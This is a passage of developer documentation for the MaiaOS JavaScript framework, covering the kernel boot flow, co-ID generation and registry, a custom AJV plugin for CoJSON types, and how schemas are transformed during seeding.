  registry: { /* configs */ }
});

// Now you can:
// - os.createActor() - Create actors
// - os.loadVibe() - Load app manifests
// - os.sendMessage() - Send messages between actors
```

**What you get:**
- `os.createActor()` - Create and render actors
- `os.loadVibe()` - Load app manifests from files
- `os.loadVibeFromDatabase()` - Load app manifests from database
- `os.getActor()` - Get actor by ID
- `os.sendMessage()` - Send messages to actors
- `os.db()` - Execute database operations
- `os.getEngines()` - Access all engines for debugging

---

## Documentation Structure

This package documentation is organized into focused topics:

- **[auth-layer.md](./auth-layer.md)** - Identity & Authentication layer (`createMaiaOS`)
- **[boot-process.md](./boot-process.md)** - Boot process and execution layer (`MaiaOS.boot()`)
- **[api-reference.md](./api-reference.md)** - Complete API reference
- **[patterns.md](./patterns.md)** - Common patterns and troubleshooting

---

## Quick Start

Here's the complete flow:

```javascript
import { createMaiaOS, MaiaOS } from '@MaiaOS/kernel';
import { signInWithPasskey } from '@MaiaOS/self';

async function startApp() {
  // STEP 1: Authenticate (Identity Layer)
  const { node, account, accountID } = await signInWithPasskey({
    salt: "maia.city"
  });
  
  const o = await createMaiaOS({ node, account, accountID });
  console.log("✅ Authenticated as:", accountID);
  
  // STEP 2: Boot OS (Execution Layer)
  const os = await MaiaOS.boot({
    modules: ['db', 'core', 'dragdrop', 'interface']
  });
  
  // STEP 3: Load your app
  const { vibe, actor } = await os.loadVibeFromDatabase(
    '@vibe/todos',
    document.getElementById('app-container')
  );
  
  console.log("✅ App loaded:", vibe.name);
}
```

---

## Related Documentation

- [maia-script Package](../04_maia-script/README.md) - Execution engines
- [MaiaOS Architecture](../01_maiaos.md) - Overall system architecture
- [Authentication](../09_authentication.md) - Authentication flow
- [CoJSON Integration](../07_cojson.md) - Database layer

---

## Source Files

**Package:** `libs/maia-kernel/`

**Key Files:**
- `src/index.js` - Public API exports
- `src/auth.js` - Identity/authentication layer (`createMaiaOS`)
- `src/kernel.js` - Execution layer (`MaiaOS.boot()`)

**Dependencies:**
- `@MaiaOS/self` - Authentication
- `@MaiaOS/script` - Engines and DSL execution
- `@MaiaOS/db` - Database operations
- `@MaiaOS/schemata` - Schema validation

---

# MAIA SCHEMATA/CO ID GENERATION

*Source: developers/03_maia-schemata/co-id-generation.md*

# Co-ID Generation

## Overview

Co-IDs are unique identifiers used throughout MaiaOS to reference schemas, instances, and data entities. Think of them like social security numbers - each one is unique and can be used to identify something specific.

**What they are:**
- Format: `co_z[A-Za-z0-9]{43}` (e.g., `co_z9h5nwiNynbxnC3nTwPMPkrVaMQ`)
- Currently: Randomly generated (for seeding)
- Future: Content-addressable (hash of content → co-id)

**Why they matter:**
- Enable reference resolution without human-readable mappings
- Support distributed systems (co-ids are globally unique)
- Prepare for CoJSON backend migration

---

## The Simple Version

Imagine you're organizing a library. You could label books with names like "The Great Gatsby" (human-readable), but that's long and can have duplicates. Instead, you give each book a unique ID like "BK-12345" (co-id).

**In MaiaOS:**
- **Human-readable:** `@schema/actor` (easy to read, but not unique globally)
- **Co-id:** `co_z9h5nwiNynbxnC3nTwPMPkrVaMQ` (unique globally, but harder to read)

**During seeding:**
- Generate co-ids for all schemas/instances
- Replace human-readable IDs with co-ids
- Store mappings in CoIdRegistry (for lookup)

---

## Co-ID Format

### Structure

```
co_z + base64-like string (43 characters)
```

**Example:**
```
co_z9h5nwiNynbxnC3nTwPMPkrVaMQ
```

**Breakdown:**
- `co_z`: Prefix (identifies as co-id)
- `9h5nwiNynbxnC3nTwPMPkrVaMQ`: Base64-like string (43 chars)

### Generation

**Current implementation:**
```javascript
const randomBytes = new Uint8Array(32);
crypto.getRandomValues(randomBytes);
const base64 = btoa(String.fromCharCode(...randomBytes))
  .replace(/\+/g, '')
  .replace(/\//g, '')
  .replace(/=/g, '')
  .substring(0, 43);
return `co_z${base64}`;
```

**Future implementation (content-addressable):**
```javascript
// Hash content to generate deterministic co-id
const hash = await crypto.subtle.digest('SHA-256', JSON.stringify(content));
const base64 = btoa(String.fromCharCode(...hash))
  .replace(/\+/g, '')
  .replace(/\//g, '')
  .replace(/=/g, '')
  .substring(0, 43);
return `co_z${base64}`;
```

---

## Co-ID Registry

### Purpose

The `CoIdRegistry` tracks mappings between human-readable IDs and co-ids during seeding.

**Think of it like:** A phone book that maps names to phone numbers.

**Example:**
```
Human-readable ID → Co-ID
@schema/actor     → co_z123...
@schema/context   → co_z456...
@actor/vibe       → co_z789...
```

### Usage

```javascript
import { CoIdRegistry, generateCoId } from '@MaiaOS/schemata/co-id-generator';

const registry = new CoIdRegistry();

// Register mappings
const schemaCoId = generateCoId(schema);
registry.register('@schema/actor', schemaCoId);

const instanceCoId = generateCoId(instance);
registry.register('@actor/vibe', instanceCoId);

// Later, retrieve co-ids
const coId = registry.get('@schema/actor');  // Returns 'co_z123...'
const humanId = registry.getHumanId('co_z123...');  // Returns '@schema/actor'
```

### Methods

**`register(humanId, coId)`**
- Registers a mapping
- Prevents duplicate registrations (throws if different co-id for same human ID)
- Allows one co-id to map to multiple human IDs (aliases)

**`get(humanId)`**
- Returns co-id for human-readable ID
- Returns `null` if not found

**`getHumanId(coId)`**
- Returns human-readable ID for co-id
- Returns first registered human ID (if multiple aliases)
- Returns `null` if not found

**`has(humanId)`**
- Checks if human-readable ID is registered
- Returns `boolean`

**`getAll()`**
- Returns all mappings as `Map`
- Useful for building `coIdMap` for transformation

**`clear()`**
- Clears all registrations
- Useful for testing or reset

---

## Generation Functions

### `generateCoId(content)`

Generates a co-id for any content (schema, instance, data entity, etc.).

**Current behavior:**
- Generates random co-id (ignores `content` parameter)
- Same content → different co-id each time

**Future behavior:**
- Generates deterministic co-id from content hash
- Same content → same co-id (content-addressable)

**Example:**
```javascript
const schemaCoId = generateCoId(schema);
const instanceCoId = generateCoId(instance);
const dataCoId = generateCoId(dataEntity);
```

**Note:** All three functions (`generateCoIdForSchema`, `generateCoIdForInstance`, `generateCoIdForDataEntity`) have been consolidated into a single `generateCoId()` function.

---

## Seeding Process

### Phase 1: Generate Co-IDs for Schemas

```javascript
const schemaCoIdMap = new Map();
const coIdRegistry = new CoIdRegistry();

for (const [name, schema] of Object.entries(schemas)) {
  const coId = generateCoId(schema);
  const schemaKey = `@schema/${name}`;
  
  schemaCoIdMap.set(schemaKey, coId);
  coIdRegistry.register(schemaKey, coId);
}
```

### Phase 2: Generate Co-IDs for Instances

```javascript
const instanceCoIdMap = new Map();

for (const [id, instance] of instances) {
  const coId = generateCoId(instance);
  instanceCoIdMap.set(id, coId);
  coIdRegistry.register(id, coId);
}
```

### Phase 3: Generate Co-IDs for Data Entities

```javascript
for (const item of dataItems) {
  if (!item.$id) {
    item.$id = generateCoId(item);
  }
  // Store with co-id as primary key
}
```

---

## Common Patterns

### Building Co-ID Map for Transformation

```javascript
const coIdMap = new Map();

// Add schema co-ids
for (const [humanId, coId] of coIdRegistry.getAll()) {
  if (humanId.startsWith('@schema/')) {
    coIdMap.set(humanId, coId);
  }
}

// Add instance co-ids
for (const [humanId, coId] of coIdRegistry.getAll()) {
  if (humanId.startsWith('@actor/') || humanId.startsWith('@context/')) {
    coIdMap.set(humanId, coId);
  }
}
```

### Checking if Co-ID Exists

```javascript
const coId = generateCoId(content);

// Check if this co-id is already registered
const existingHumanId = coIdRegistry.getHumanId(coId);
if (existingHumanId) {
  console.log(`Co-id ${coId} already exists for ${existingHumanId}`);
  // Reuse existing co-id or generate new one?
}
```

### Handling Duplicate Registrations

```javascript
try {
  registry.register('@schema/actor', coId1);
  registry.register('@schema/actor', coId2);  // Throws error!
} catch (error) {
  // Error: Co-id already registered for @schema/actor: co_z123... (trying to register co_z456...)
}
```

---

## Future: Content-Addressable Co-IDs

### Why Content-Addressable?

**Current (random):**
- Same content → different co-id each time
- Can't detect duplicates
- Requires registry for lookup

**Future (content-addressable):**
- Same content → same co-id
- Can detect duplicates automatically
- Can verify content integrity
- No registry needed (co-id = content hash)

### Implementation Plan

```javascript
async function generateCoId(content) {
  // Hash content
  const contentString = JSON.stringify(content, Object.keys(content).sort());
  const hashBuffer = await crypto.subtle.digest('SHA-256', new TextEncoder().encode(contentString));
  
  // Convert to base64
  const hashArray = Array.from(new Uint8Array(hashBuffer));
  const base64 = btoa(String.fromCharCode(...hashArray))
    .replace(/\+/g, '')
    .replace(/\//g, '')
    .replace(/=/g, '')
    .substring(0, 43);
  
  return `co_z${base64}`;
}
```

**Benefits:**
- Deterministic: Same content always generates same co-id
- Verifiable: Can verify content matches co-id
- Deduplication: Duplicate content automatically detected
- Distributed: Works across systems without coordination

---

## Troubleshooting

### Problem: "Co-id already registered for X"

**Solution:** Check if you're trying to register the same human ID with a different co-id:
```javascript
// If this fails, the human ID is already registered
try {
  registry.register('@schema/actor', newCoId);
} catch (error) {
  // Use existing co-id instead
  const existingCoId = registry.get('@schema/actor');
}
```

### Problem: Co-ID not found during transformation

**Solution:** Make sure co-ids are generated and registered before transformation:
```javascript
// 1. Generate co-ids
const coId = generateCoId(schema);
registry.register('@schema/actor', coId);

// 2. Build co-id map
const coIdMap = new Map(registry.getAll());

// 3. Transform (now co-ids are available)
transformSchemaForSeeding(schema, coIdMap);
```

---

## Source Files

- Co-ID generator: `libs/maia-schemata/src/co-id-generator.js`
- Usage in seeding: `libs/maia-script/src/o/engines/db-engine/backend/indexeddb.js`

---

# MAIA SCHEMATA/COJSON INTEGRATION

*Source: developers/03_maia-schemata/cojson-integration.md*

# CoJSON Integration

## Overview

The `maia-schemata` package extends JSON Schema with support for CoJSON types (CoMap, CoList, CoStream) via a custom AJV plugin. Think of it as adding new words to a language - JSON Schema understands standard types (string, number, object), and we're teaching it to understand CoJSON types too.

**What it adds:**
- `cotype` keyword: Validates CoJSON CRDT types at schema root
- `$co` keyword: Macro for co-id references in properties/items
- Support for both direct arrays and wrapped objects (colist/costream)

---

## The Simple Version

Imagine JSON Schema is a language that only knows about regular objects and arrays. CoJSON types are like special containers - they look similar, but they work differently (they're collaborative and conflict-free).

**The problem:** JSON Schema doesn't know about CoJSON types.

**The solution:** We teach JSON Schema about CoJSON types using custom keywords:
- `cotype`: "This is a CoMap/CoList/CoStream"
- `$co`: "This property references another CoJSON schema"

**Example:**
```json
{
  "$schema": "@schema/meta",
  "cotype": "comap",
  "properties": {
    "viewRef": { "$co": "@schema/view" }
  }
}
```

This says: "This is a CoMap schema, and the `viewRef` property references the `@schema/view` schema."

---

## Custom Keywords

### `cotype` Keyword

**Purpose:** Validates that data is a CoJSON CRDT type.

**Values:**
- `"comap"`: Collaborative map (object-like)
- `"colist"`: Collaborative list (array-like)
- `"costream"`: Collaborative stream (array-like, append-only)

**Where it's used:** At the schema root only (not in properties).

**Example:**
```json
{
  "$schema": "@schema/meta",
  "title": "Todos Schema",
  "cotype": "comap",
  "properties": {
    "text": { "type": "string" },
    "done": { "type": "boolean" }
  }
}
```

**Validation:**
- `comap`: Validates that data is an object (not array, not null)
- `colist`/`costream`: Validates that data is either:
  - A direct array: `[{...}, {...}]`
  - An object with `items` array: `{$schema: "...", $id: "...", items: [{...}]}`

### `$co` Keyword

**Purpose:** Macro that expands to co-id string validation with schema reference metadata.

**What it expands to:**
```json
{
  "$co": "@schema/view"
}
```

Expands to:
```json
{
  "type": "string",
  "pattern": "^co_z[a-zA-Z0-9]+$",
  "_schemaRef": "@schema/view"
}
```

**Where it's used:** In properties and items (not at schema root).

**Example:**
```json
{
  "properties": {
    "viewRef": { "$co": "@schema/view" },
    "contextRef": { "$co": "@schema/context" }
  }
}
```

**Transformation:**
- Before seeding: `{ "$co": "@schema/view" }` (human-readable)
- After seeding: `{ "$co": "co_z123..." }` (co-id)
- Pattern validation ensures it's a valid co-id format

---

## AJV Plugin

### How It Works

The plugin registers two custom keywords with AJV:

```javascript
ajvCoTypesPlugin(ajv);

// Now AJV understands:
// - cotype keyword (validates CRDT types)
// - $co keyword (macro for co-id references)
```

### Plugin Registration

**When:** During `ValidationEngine.initialize()`

**Where:** After meta-schemas are registered

**Code:**
```javascript
// In validation.engine.js
ajvCoTypesPlugin(this.ajv);
```

### Keyword Implementation

**`cotype` keyword:**
```javascript
ajv.addKeyword({
  keyword: 'cotype',
  validate: (schema, data) => {
    if (schema === 'comap') {
      return typeof data === 'object' && !Array.isArray(data) && data !== null;
    }
    if (schema === 'colist' || schema === 'costream') {
      // Direct array OR object with items array
      return Array.isArray(data) || 
             (typeof data === 'object' && data !== null && Array.isArray(data.items));
    }
    return false;
  }
});
```

**`$co` keyword:**
```javascript
ajv.addKeyword({
  keyword: '$co',
  macro: (schemaCoId) => ({
    type: 'string',
    pattern: '^co_z[a-zA-Z0-9]+$',
    _schemaRef: schemaCoId  // Metadata for transformation
  })
});
```

---

## CoJSON Meta-Schema

### Structure

The CoJSON meta-schema (`os/meta.schema.json`) extends the base JSON Schema meta-schema:

```json
{
  "$schema": "https://json-schema.org/draft/2020-12/schema",
  "$id": "@schema/meta",
  "$vocabulary": {
    "https://json-schema.org/draft/2020-12/vocab/core": true,
    "https://maiaos.dev/vocab/cojson": true  // ← CoJSON vocabulary
  },
  "properties": {
    "cotype": {
      "enum": ["comap", "colist", "costream"]
    },
    "$co": {
      "type": "string",
      "anyOf": [
        { "pattern": "^co_z[a-zA-Z0-9]+$" },
        { "pattern": "^@schema/" }
      ]
    }
  }
}
```

### Vocabulary

**CoJSON Vocabulary:** `https://maiaos.dev/vocab/cojson`

**Purpose:** Indicates that this schema uses CoJSON types.

**Usage:** Schemas with CoJSON types must use `$schema: "@schema/meta"` to enable `cotype` and `$co` keywords.

---

## Type Validation Details

### CoMap Validation

**Schema:**
```json
{
  "cotype": "comap",
  "properties": { ... }
}
```

**Valid data:**
```json
{
  "name": "my-map",
  "value": 42
}
```

**Invalid data:**
```json
[]  // ❌ Array, not object
null  // ❌ Null, not object
```

### CoList Validation

**Schema:**
```json
{
  "cotype": "colist",
  "items": { "type": "string" }
}
```

**Valid data (direct array):**
```json
["item1", "item2", "item3"]
```

**Valid data (wrapped object):**
```json
{
  "$schema": "co_z123...",
  "$id": "co_z456...",
  "items": ["item1", "item2", "item3"]
}
```

**Invalid data:**
```json
{}  // ❌ Object without items array
null  // ❌ Null
```

### CoStream Validation

**Schema:**
```json
{
  "cotype": "costream",
  "items": { "type": "object" }
}
```

**Valid data:** Same as CoList (direct array or wrapped object)

**Difference:** CoStream is append-only (enforced at runtime, not schema level)

---

## Common Patterns

### CoMap Schema

```json
{
  "$schema": "@schema/meta",
  "title": "Actor Schema",
  "cotype": "comap",
  "properties": {
    "name": { "type": "string" },
    "viewRef": { "$co": "@schema/view" },
    "contextRef": { "$co": "@schema/context" }
  },
  "required": ["name"]
}
```

### CoList Schema

```json
{
  "$schema": "@schema/meta",
  "title": "Todos List Schema",
  "cotype": "colist",
  "items": {
    "$co": "@schema/todo-item"
  }
}
```

### Nested References

```json
{
  "$schema": "@schema/meta",
  "title": "Context Schema",
  "cotype": "comap",
  "properties": {
    "todos": {
      "$co": "@schema/todos"  // References colist schema
    }
  }
}
```

---

## Transformation Flow

### Before Seeding

```json
{
  "$schema": "@schema/meta",
  "cotype": "comap",
  "properties": {
    "viewRef": { "$co": "@schema/view" }
  }
}
```

### After Seeding

```json
{
  "$schema": "co_z111...",
  "cotype": "comap",
  "properties": {
    "viewRef": { "$co": "co_z222..." }
  }
}
```

**What changed:**
- `$schema`: `@schema/meta` → `co_z111...`
- `$co`: `@schema/view` → `co_z222...`
- `cotype`: Unchanged (not a reference)

---

## Troubleshooting

### Problem: "must pass 'cotype' keyword validation"

**Solution:** Add `cotype` to schema root:
```json
{
  "$schema": "@schema/meta",
  "cotype": "comap",  // ← Add this!
  "properties": { ... }
}
```

### Problem: "Nested CoJSON types found"

**Solution:** Use `$co` instead of nesting `cotype`:
```json
// ❌ Wrong
{
  "properties": {
    "items": { "cotype": "colist" }
  }
}

// ✅ Correct
{
  "properties": {
    "items": { "$co": "@schema/items" }
  }
}
```

### Problem: "must be string" for `$co` property

**Solution:** Make sure `$co` value is transformed to co-id:
```javascript
// Before transformation: { "$co": "@schema/view" }  // ❌ Fails validation
// After transformation: { "$co": "co_z123..." }     // ✅ Passes validation
```

---

## Source Files

- Plugin implementation: `libs/maia-schemata/src/ajv-co-types-plugin.js`
- Meta-schema: `libs/maia-schemata/src/os/meta.schema.json`
- Base meta-schema: `libs/maia-schemata/src/os/base-meta-schema.json`

---

# MAIA SCHEMATA/README

*Source: developers/03_maia-schemata/README.md*

# maia-schemata: Schema Validation and Transformation

## Overview

The `maia-schemata` package is MaiaOS's centralized schema validation and transformation system. Think of it as the quality control inspector for your MaiaOS applications - it checks that everything is built correctly before it goes into production.

**What it does:**
- ✅ Validates all `.maia` files against JSON Schema definitions
- ✅ Transforms human-readable references to co-ids during seeding
- ✅ Provides runtime validation for application data
- ✅ Supports CoJSON types (CoMap, CoList, CoStream) via custom AJV plugin

**Why it matters:**
Without schema validation, a typo in a `.maia` file could cause your entire app to break in mysterious ways. The validation system catches these errors early with clear, helpful messages.

---

## The Simple Version

Think of schemas like blueprints for houses. When you're building a house, you need to follow the blueprint exactly - the door can't be where the window should be, and the foundation needs to be the right size.

In MaiaOS:
- **Schemas** = Blueprints (they define what's allowed)
- **Validation** = Quality inspector (checks if you followed the blueprint)
- **Transformation** = Converting your blueprint to the builder's language (human-readable IDs → co-ids)

**Example:**
```javascript
// You write this in your .maia file:
{
  "actor": {
    "name": "my-actor",
    "view": { "type": "div" }
  }
}

// The validation system checks:
// ✅ Does it have a "name"? Yes!
// ✅ Is "name" a string? Yes!
// ✅ Does it have a "view"? Yes!
// ✅ Is "view" a valid view object? Yes!
// Result: ✅ Valid!
```

---

## Package Structure

```
libs/maia-schemata/src/
├── index.js                    # Main exports (schemas, ValidationEngine)
├── validation.engine.js        # Core validation engine (AJV wrapper)
├── validation.helper.js        # Convenience functions (singleton, error formatting)
├── schema-transformer.js       # Transform schemas/instances for seeding
├── co-id-generator.js          # Generate co-ids for seeding
├── schema-loader.js            # Load schemas from IndexedDB
├── ajv-co-types-plugin.js     # AJV plugin for CoJSON types
├── os/                         # Operating system schemas
│   ├── actor.schema.json
│   ├── context.schema.json
│   ├── state.schema.json
│   ├── view.schema.json
│   ├── meta.schema.json        # CoJSON meta-schema
│   └── base-meta-schema.json   # JSON Schema Draft 2020-12 meta-schema
└── data/                       # Application data schemas
    └── todos.schema.json
```

---

## Key Components

### 1. ValidationEngine

The core validation system. Wraps AJV (Another JSON Schema Validator) and adds CoJSON support.

**What it does:**
- Loads and compiles JSON schemas
- Validates data against schemas
- Resolves schema dependencies ($schema, $co references)
- Handles co-id references from IndexedDB

**See:** [Validation Engine Details](./validation.md)

### 2. Schema Transformer

Converts human-readable references to co-ids during the seeding process.

**What it does:**
- Transforms `@schema/actor` → `co_z123...`
- Handles nested query objects (`{schema: "@schema/todos", filter: {...}}`)
- Transforms tool payloads and action targets

**See:** [Schema Transformation](./transformation.md)

### 3. Co-ID Generator

Generates deterministic co-ids for schemas, instances, and data entities.

**What it does:**
- Creates random co-ids in format `co_z[A-Za-z0-9]{43}`
- Tracks mappings via CoIdRegistry
- Currently generates random IDs (future: content-addressable hashing)

**See:** [Co-ID Generation](./co-id-generation.md)

### 4. AJV CoJSON Plugin

Custom AJV plugin that adds support for CoJSON types.

**What it does:**
- Adds `cotype` keyword (validates comap/colist/costream at schema root)
- Adds `$co` keyword (macro for co-id references in properties)
- Handles both direct arrays and wrapped objects for colist/costream

**See:** [CoJSON Integration](./cojson-integration.md)

---

## How It Works

### The Validation Flow

```
1. Load Schema
   └─> Get schema from registry (os/ or data/)
   └─> Compile with AJV
   └─> Cache compiled validator

2. Validate Data
   └─> Run data through compiled validator
   └─> Collect all errors (not just first)
   └─> Format errors for readability

3. Handle Errors
   └─> Show clear error messages
   └─> Point to exact field that failed
   └─> Suggest fixes
```

### The Seeding Flow

```
1. Load Schemas
   └─> Read all schema files from os/ and data/
   └─> Generate co-ids for each schema
   └─> Build dependency graph

2. Transform Schemas
   └─> Replace @schema/... references with co-ids
   └─> Transform $co references
   └─> Preserve structure

3. Transform Instances
   └─> Transform query objects ({schema: "@schema/todos"})
   └─> Transform tool payloads
   └─> Transform action targets

4. Seed to IndexedDB
   └─> Store schemas with co-ids as keys
   └─> Store instances with co-ids as keys
   └─> Register mappings in CoIdRegistry
```

---

## Common Patterns

### Validating a Schema File

```javascript
import { validateOrThrow } from '@MaiaOS/schemata/validation.helper';

try {
  await validateOrThrow('actor', actorData, 'path/to/actor.maia');
  console.log('✅ Valid!');
} catch (error) {
  console.error('❌ Validation failed:', error.message);
}
```

### Getting a Schema

```javascript
import { getSchema } from '@MaiaOS/schemata';

const actorSchema = getSchema('actor');
console.log(actorSchema); // Full JSON Schema object
```

### Transforming for Seeding

```javascript
import { transformSchemaForSeeding } from '@MaiaOS/schemata/schema-transformer';

const coIdMap = new Map([
  ['@schema/actor', 'co_z123...'],
  ['@schema/context', 'co_z456...']
]);

const transformedSchema = transformSchemaForSeeding(actorSchema, coIdMap);
// All @schema/... references are now co-ids
```

### Generating Co-IDs

```javascript
import { generateCoId, CoIdRegistry } from '@MaiaOS/schemata/co-id-generator';

const registry = new CoIdRegistry();
const schemaCoId = generateCoId(schema);
registry.register('@schema/actor', schemaCoId);

// Later, retrieve the co-id
const coId = registry.get('@schema/actor'); // Returns 'co_z123...'
```

---

## Integration Points

### With maia-script

The `maia-script` package uses `maia-schemata` for:
- Validating `.maia` files during parsing
- Transforming schemas/instances before seeding to IndexedDB
- Runtime validation of data operations

**See:** `libs/maia-script/src/o/engines/db-engine/backend/indexeddb.js`

### With maia-db

The `maia-db` package uses `maia-schemata` for:
- Loading schemas from IndexedDB for validation
- Resolving co-id references during validation
- Validating data before create/update operations

### With maia-operations

The `maia-operations` package uses `maia-schemata` for:
- Validating data against schemas in create/update operations
- Loading schemas from database for validation
- Schema validation is enforced by operations (100% migration - no fallbacks)

**See:** `libs/maia-operations/src/operations/create.js` and `libs/maia-operations/src/operations/update.js`

---

## Key Concepts

### Schema Types

**OS Schemas** (`os/`):
- Define MaiaOS system types (actor, context, state, view, etc.)
- Used for validating `.maia` file definitions
- Examples: `actor.schema.json`, `context.schema.json`

**Data Schemas** (`data/`):
- Define application data types (todos, notes, etc.)
- Used for runtime validation of user data
- Examples: `todos.schema.json`

### Meta-Schemas

**Base Meta-Schema** (`base-meta-schema.json`):
- JSON Schema Draft 2020-12 meta-schema
- Validates all standard JSON Schema schemas
- Extracted from hardcoded object to JSON file

**CoJSON Meta-Schema** (`meta.schema.json`):
- Extends base meta-schema with CoJSON vocabulary
- Adds `cotype` and `$co` keywords
- Validates MaiaOS-specific schemas

### Reference Types

**$schema**:
- Points to the meta-schema that validates this schema
- Can be human-readable (`@schema/meta`) or co-id (`co_z123...`)
- Resolved dynamically during validation

**$co**:
- References another schema (for properties/items)
- Can be human-readable (`@schema/actor`) or co-id (`co_z123...`)
- Transformed to co-id during seeding

**$ref**:
- Internal schema reference (within same schema)
- Uses JSON Schema `$ref` syntax (`#/$defs/...`)
- Not transformed (stays as-is)

---

## Troubleshooting

### Problem: "Schema missing required $schema field"

**Solution:** Every schema must declare which meta-schema validates it:
```json
{
  "$schema": "@schema/meta",
  "$id": "@schema/actor",
  ...
}
```

### Problem: "No co-id found for query object schema"

**Solution:** Make sure data collection schemas are registered before transforming instances:
```javascript
// Register data collection schema first
coIdRegistry.register('@schema/todos', todosCoId);

// Then transform instances that reference it
transformInstanceForSeeding(instance, coIdMap);
```

### Problem: "Validation failed: must pass 'cotype' keyword validation"

**Solution:** Add `cotype` to schema root for CoJSON types:
```json
{
  "$schema": "@schema/meta",
  "cotype": "comap",
  "properties": { ... }
}
```

---

## Related Documentation

- [maia-operations Package](../06_maia-operations/README.md) - Operations layer that uses schema validation
- [Schema Definitions](../03_schemas.md) - Schema structure and usage
- [Validation Engine Details](./validation.md) - How ValidationEngine works
- [Schema Transformation](./transformation.md) - How transformation works
- [CoJSON Integration](./cojson-integration.md) - CoJSON types support
- [CoJSON Architecture](../05_maia-db/cojson.md) - CoJSON system overview

---

## Source Files

- Main entry: `libs/maia-schemata/src/index.js`
- Validation engine: `libs/maia-schemata/src/validation.engine.js`
- Validation helper: `libs/maia-schemata/src/validation.helper.js`
- Schema transformer: `libs/maia-schemata/src/schema-transformer.js`
- Co-ID generator: `libs/maia-schemata/src/co-id-generator.js`
- AJV plugin: `libs/maia-schemata/src/ajv-co-types-plugin.js`

---

# MAIA SCHEMATA/TRANSFORMATION

*Source: developers/03_maia-schemata/transformation.md*

# Schema Transformation

## Overview

The schema transformation system converts human-readable references to co-ids during the seeding process. Think of it like translating a document from one language to another - the meaning stays the same, but the words change.

**What it does:**
- Transforms `@schema/actor` → `co_z123...`
- Handles nested structures (query objects, tool payloads)
- Preserves all data structure (only changes reference strings)
- Works recursively through nested objects and arrays

---

## The Simple Version

Imagine you have a recipe written in English, but you need to give it to someone who only speaks French. You translate the words, but keep the structure the same - "eggs" becomes "œufs", but you still need 2 of them.

In MaiaOS:
- **Before:** `{schema: "@schema/todos"}` (human-readable)
- **After:** `{schema: "co_z123..."}` (co-id)
- **Structure:** Same! Only the reference string changed.

---

## Transformation Flow

### During Seeding

```
1. Load Schemas
   └─> Read schema files
   └─> Generate co-ids for each schema
   └─> Build co-id map (@schema/actor → co_z123...)

2. Transform Schemas
   └─> Replace $schema references
   └─> Replace $id references
   └─> Replace $co references in properties
   └─> Replace $ref references in $defs

3. Transform Instances
   └─> Transform query objects ({schema: "@schema/todos"})
   └─> Transform tool payloads
   └─> Transform action targets (@actor/vibe)
   └─> Transform array items

4. Store in IndexedDB
   └─> All references are now co-ids
   └─> Can be resolved without human-readable mappings
```

---

## Key Functions

### `transformSchemaForSeeding(schema, coIdMap)`

Transforms a schema object, replacing all human-readable references with co-ids.

**What it transforms:**
- `$schema`: `"@schema/meta"` → `"co_z123..."`
- `$id`: `"@schema/actor"` → `"co_z123..."`
- `$co` in properties: `{ "$co": "@schema/view" }` → `{ "$co": "co_z456..." }`
- `$ref` in `$defs`: `{ "$ref": "#/$defs/..." }` → (unchanged, internal reference)

**Example:**
```javascript
const schema = {
  $schema: '@schema/meta',
  $id: '@schema/actor',
  properties: {
    viewRef: { $co: '@schema/view' }
  }
};

const coIdMap = new Map([
  ['@schema/meta', 'co_z111...'],
  ['@schema/actor', 'co_z222...'],
  ['@schema/view', 'co_z333...']
]);

const transformed = transformSchemaForSeeding(schema, coIdMap);
// {
//   $schema: 'co_z111...',
//   $id: 'co_z222...',
//   properties: {
//     viewRef: { $co: 'co_z333...' }
//   }
// }
```

### `transformInstanceForSeeding(instance, coIdMap)`

Transforms an instance (actor, context, etc.), replacing all human-readable references with co-ids.

**What it transforms:**
- Top-level `schema` field: `"@schema/todos"` → `"co_z123..."`
- Query objects: `{schema: "@schema/todos", filter: {...}}` → `{schema: "co_z123...", filter: {...}}`
- Tool payloads: `{tool: "@db", payload: {schema: "@schema/todos"}}` → `{tool: "@db", payload: {schema: "co_z123..."}}`
- Action targets: `{tool: "@core/publishMessage", payload: {target: "@actor/vibe"}}` → `{tool: "@core/publishMessage", payload: {target: "co_z456..."}}`
- Array items: `["@actor/vibe"]` → `["co_z456..."]`

**Example:**
```javascript
const instance = {
  schema: '@schema/todos',
  todos: {
    schema: '@schema/todos',
    filter: { done: false }
  }
};

const coIdMap = new Map([
  ['@schema/todos', 'co_z123...']
]);

const transformed = transformInstanceForSeeding(instance, coIdMap);
// {
//   schema: 'co_z123...',
//   todos: {
//     schema: 'co_z123...',
//     filter: { done: false }
//   }
// }
```

### `transformQueryObjects(obj, coIdMap)`

Recursively transforms query objects in nested structures.

**What it handles:**
- Query objects: `{schema: "@schema/todos", filter: {...}}`
- Tool payloads: `{tool: "@db", payload: {...}}`
- Action payloads: `{tool: "@core/publishMessage", payload: {target: "@actor/vibe"}}`
- Nested objects and arrays

**Example:**
```javascript
const obj = {
  context: {
    todos: {
      schema: '@schema/todos',
      filter: { done: false }
    }
  },
  actions: [
    {
      tool: '@core/publishMessage',
      payload: {
        target: '@actor/vibe'
      }
    }
  ]
};

transformQueryObjects(obj, coIdMap);
// All @schema/... and @actor/... references are now co-ids
```

---

## Query Object Pattern

### What Are Query Objects?

Query objects are a special pattern used in context schemas to reference data collections:

```json
{
  "todos": {
    "schema": "@schema/todos",
    "filter": { "done": false }
  }
}
```

**Structure:**
- `schema`: Reference to data collection schema
- `filter`: Optional filter criteria

**Transformation:**
- `schema` field is transformed to co-id
- `filter` is preserved as-is

### Runtime Transformation

At runtime, query objects are transformed to arrays:

```javascript
// Before (schema definition):
{
  "todos": {
    "schema": "@schema/todos",
    "filter": { "done": false }
  }
}

// After (runtime data):
{
  "todos": [
    { "id": "1", "text": "Buy milk", "done": false },
    { "id": "2", "text": "Walk dog", "done": false }
  ]
}
```

**Why:** The schema allows both object (query) and array (data) to accommodate this transformation.

---

## Tool Payload Transformation

### Database Tool Payloads

**Pattern:**
```json
{
  "tool": "@db",
  "payload": {
    "schema": "@schema/todos",
    "data": { "text": "Buy milk" }
  }
}
```

**Transformation:**
- `payload.schema` is transformed to co-id
- `payload.data` is preserved as-is

### Action Tool Payloads

**Pattern:**
```json
{
  "tool": "@core/publishMessage",
  "payload": {
    "target": "@actor/vibe",
    "message": { "type": "CREATE_TODO" }
  }
}
```

**Transformation:**
- `payload.target` is transformed to co-id
- `payload.message` is preserved as-is

---

## Helper Functions

### `transformSchemaReference(schemaRef, coIdMap, context)`

Transforms a single schema reference string.

**Example:**
```javascript
const coId = transformSchemaReference('@schema/todos', coIdMap, 'query object');
// Returns: 'co_z123...' or null if not found
```

### `transformTargetReference(targetRef, coIdMap, context)`

Transforms a single target/actor reference string.

**Example:**
```javascript
const coId = transformTargetReference('@actor/vibe', coIdMap, 'tool payload');
